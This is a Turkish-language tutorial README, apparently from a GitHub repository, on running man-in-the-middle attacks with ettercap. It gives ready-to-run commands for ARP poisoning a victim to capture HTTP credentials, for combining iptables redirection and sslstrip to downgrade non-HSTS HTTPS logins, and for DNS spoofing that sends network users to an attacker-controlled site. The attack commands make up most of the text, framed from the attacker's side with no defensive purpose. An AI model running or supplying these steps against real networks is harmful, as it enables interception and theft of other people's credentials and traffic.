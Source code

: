 # MITM Saldırısı
MITM (Man In The Middle) saldırısı yapmak için kullanılan bir sürü araç vardır. Benim tercihim ise ettercap. Sebebi ise kullanırken diğer araçlara nazaran (mitmproxy, bettercap gibi) daha az hata ile karşılaşmam. Bir diğer sebebi ise grafiksel arayüzünün de mevcut olması.
### Ettercap ile HTTP siteler için saldırmak
Ettercap ile saldırı yapmadan önce /etc/ettercap/etter.conf dosyasında değişiklik yapmamız gerekiyor.<br/><br/>
`leafpad /etc/ettercap/etter.conf`<br/><br/>
komutu ile ilgili dosyayı açıyoruz.<br/><br/>
#####################################<br/>
\# redir_command_on/off<br/>
#####################################<br/><br/>
başlığı altında Linux bölmesinde redir_command_on ve redir_command_off satırlarının başında bulunan # karakterlerini siliyoruz. Sonrasında ettercap’i çalıştırabiliriz.<br/><br/>
`ettercap -Tq ///`<br/><br/>
bu komut ile ettercap’i sadece çalıştırdık, bir adres vs. girmediğimiz için herhangi bir saldırı başlatmadık. bu komutu çalıştırdıktan sonra l tuşuna basarsak aynı ağdaki cihazları bulacaktır. q ile de çıkış yapabiliyoruz.<br/>
Saldırı yapmak için aşağıdaki komutu çalıştırıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -i eth0 /192.168.10.1// /192.168.10.131//`<br/><br/>
Burada ///’ların bir anlamı var. mac_adress/ipv4/ipv6/port şeklinde girdi verebiliyoruz. Yukarıda ipv4 kullanarak bir saldırı yaptık. Önce modemin IP adresini, sonra kurbanın IP adresini yazdık. Bu komutu yazdıktan sonra kurban bir http sitesi üzerinden credentials girerse terminalimize düşecektir.
### Ettercap ile HTTPS siteler için saldırmak
HTTPS sitelerden gelen bilgileri okumak için ya ettercap içindeki bir plugin'i, ya da sslstrip kullanmalıyız. sslstrip halihazırda yoksa indirmeliyiz. Lakin kurulumu ve çalıştırmasında bazen sorun çıkabiliyor. Bunun için internetten araştırma yapmak gerekebilir. Benim karşılaştığım bir sorun vardı, çözümünü bulduğum video: [Sslstrip | requirement already satisfied: twisted in /usr/lib/python3/dist-packages (18.9.0)](https://www.youtube.com/watch?v=CCfJRYmJo2s&list=LL&index=1)<br/><br/>
İlk olarak yönlendirme yapmalıyız.<br/><br/>
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`<br/><br/>
Sonra `sslstrip` diyerek sslstrip'i çalıştırıyoruz. Bir başka terminale geçip aşağıdaki komutu çalıştırıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -S -i eth0 /192.168.10.1// /192.168.10.15//`<br/><br/>
HTTP siteler için yaptığımız saldırıdaki komuttan farklı olarak -S ekledik. Eğer kurban HSTS olmayan, ama HTTPS kullanan bir sitede credentials girerse elimize düşecektir. Evet, maalesef HSTS varsa saldırımız işe yaramıyor. HSTS'in ne olduğu ve buna karşılık nasıl bir saldırı yapılabileceğini konu alan bir makale buldum, bu repoda bu döküman ile aynı dizin içine koydum.<br/><br/>
İşimiz bittikten sonra aşağıdaki komut ile yaptığımız yönlendirmeleri kaldırabiliriz.<br/><br/>
`iptables -t nat --flush`
### Ettercap ile DNS Saldırısı
DNS saldırısını şu şekilde özetleyebiliriz: Biz ortadaki adam olduğumuza göre bir kullanıcı bir siteye girmek istediğinde o kullanıcıya DNS sunucusunun o site için döndüğü IP adresi yerine başka bir IP adresi verebiliriz. Bunun adı DNS saldırısıdır. Göreceğimiz örnekte bir web sunucusu kurup ağ içindeki diğer kullanıcıları yerel ağda bulunan sitemize yönlendireceğiz. Kali Linux üzerinde web sunucusu kurmak için:<br/><br/>
`service apache2 start`<br/><br/>
Sonrasında /etc/ettercap/etter.dns dosyasında değişiklik yapmalıyız.<br/><br/>
`leafpad /etc/ettercap/etter.dns`<br/><br/>
Aşağıdaki eklemeleri yapıyoruz.<br/><br/>
```
domain.com A 10.0.2.10
*.domain.com A 10.0.2.10
www.domain.com A 10.0.2.10
```
<br/>Bunlardan biri de yapacağımız saldırıya göre yeterli olabilir. Sonrasında aşağıdaki komut ile saldırımızı başlatıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -P dns_spoof -i eth0 /192.168.10.1// /192.168.10.15//`
### Sonuç
Ettercap ile MITM saldırısının nasıl yapılacağını görmüş olduk. Tabii ki ettercap tek araç değil, birçok farklı araç kullanılarak da MITM saldırısı yapılabilir. Hatta bu repo içinde bulunan scriptler ile de MITM saldırısı yapılabilir. Hatta ve hatta bu scriptler başka araçlarla birlikte kullanılıp HTTPS siteler için MITM saldırısı yapılabilir. Örnek verecek olursak arp_poisoner ve packet_listener scriptlerimizi sslstrip ve dns2proxy ile birlikte kullanarak HTTPS siteler için MITM saldırısı yapabiliriz.
